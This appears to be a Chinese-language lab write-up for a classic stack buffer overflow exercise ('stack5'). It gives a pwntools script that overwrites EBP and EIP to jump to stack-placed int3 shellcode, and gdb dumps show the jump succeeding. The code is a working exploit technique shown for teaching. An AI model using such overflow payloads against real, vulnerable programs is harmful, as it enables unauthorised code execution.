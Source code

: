 使用 python 撰寫腳本
```py
from pwn import *
padding =b"AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMOOOOPPPPQQQQRRRRSSSS"
ebp = b"TTTT"
eip = p32(0xffffcd20)
shellcode = b"\xCC" * 4
payload = padding + ebp + eip + shellcode
with open('payload_trap', 'wb') as f:
    f.write(payload)
```
接著將執行產生腳本
```shell
$ python3 script_trap.py
```
使用 gdb 在 `main+22` 下中斷點，接著將 payload 導入輸入並執行 (使用 `r < payload`)
```
[----------------------------------registers-----------------------------------]
EAX: 0xffffccd0 ("AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMOOOOPPPPQQQQRRRRSSSSTTTT \315\377\377\314\314\314", <incomplete sequence \314>)
EBX: 0xf7e2a000 --> 0x229dac 
ECX: 0xf7e2b9c0 --> 0x0 
EDX: 0x1 
ESI: 0xffffcdd4 --> 0xffffcff0 ("/home/ubuntu/Desktop/workspace/PWN_Lec/Lec1/Lab/test/stack5")
EDI: 0xf7ffcb80 --> 0x0 
EBP: 0x54545454 ('TTTT')
ESP: 0xffffcd1c --> 0xffffcd20 --> 0xcccccccc 
EIP: 0x80483da (<main+22>:      ret)
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[------------------------------------stack-------------------------------------]
0000| 0xffffcd1c --> 0xffffcd20 --> 0xcccccccc 
0004| 0xffffcd20 --> 0xcccccccc 
0008| 0xffffcd24 --> 0xffffcd00 ("MMMMOOOOPPPPQQQQRRRRSSSSTTTT \315\377\377\314\314\314", <incomplete sequence \314>)
0012| 0xffffcd28 --> 0xffffcddc --> 0xffffd02c ("SHELL=/usr/bin/zsh")
0016| 0xffffcd2c --> 0xffffcd40 --> 0xf7e2a000 --> 0x229dac 
0020| 0xffffcd30 --> 0xf7e2a000 --> 0x229dac 
0024| 0xffffcd34 --> 0x80483c4 (<main>: push   ebp)
0028| 0xffffcd38 --> 0x1 
[------------------------------------------------------------------------------]
```
先看到 `esp` 的部份，可以看到接下來要跳轉的記憶體地址為 `0xffffcd20`，也就是圖上 stack 所在位置，接著觀察 stack，可以看到 stack 中存在 `0xcccccccc`，也就是我們輸入的機器碼，接著輸入 `c` 繼續執行
```
[----------------------------------registers-----------------------------------]
EAX: 0xffffccd0 ("AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMOOOOPPPPQQQQRRRRSSSSTTTT \315\377\377\314\314\314", <incomplete sequence \314>)
EBX: 0xf7e2a000 --> 0x229dac 
ECX: 0xf7e2b9c0 --> 0x0 
EDX: 0x1 
ESI: 0xffffcdd4 --> 0xffffcff0 ("/home/ubuntu/Desktop/workspace/PWN_Lec/Lec1/Lab/test/stack5")
EDI: 0xf7ffcb80 --> 0x0 
EBP: 0x54545454 ('TTTT')
ESP: 0xffffcd20 --> 0xcccccccc 
EIP: 0xffffcd21 --> 0xcccccc
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
=> 0xffffcd21:  int3   
   0xffffcd22:  int3   
   0xffffcd23:  int3   
   0xffffcd24:  add    ch,cl
[------------------------------------stack-------------------------------------]
0000| 0xffffcd20 --> 0xcccccccc 
0004| 0xffffcd24 --> 0xffffcd00 ("MMMMOOOOPPPPQQQQRRRRSSSSTTTT \315\377\377\314\314\314", <incomplete sequence \314>)
```